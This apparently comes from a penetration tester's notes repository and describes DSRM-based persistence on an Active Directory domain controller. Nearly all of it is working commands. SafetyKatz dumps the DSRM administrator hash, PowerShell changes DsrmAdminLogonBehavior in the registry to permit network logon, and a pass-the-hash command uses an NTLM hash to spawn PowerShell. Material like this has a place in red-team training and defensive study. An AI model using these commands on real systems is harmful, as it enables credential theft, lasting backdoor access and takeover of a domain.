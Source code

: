 # Methodology
>1. Dump DSRM password
>2. Change logon behavior for the DSRM account.
>3. Pass-The-Hash.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump local admin DSRM password on the domain controller:**
```cmd
SafetyKatz.exe '"token::elevate" "lsadump::sam"'
```

**Change login behavior for the local admin on the DC:**
```powershell
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

**If property already exists**
```powershell
Set-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2
```

**Pass The hash:**
```cmd
SafetyKatz.exe '"sekurlsa::pth /domain:contoso.local /user:Administrator /ntlm:917ecdd1b4287f7051542d0241900cf0 /run:powershell.exe"'
```
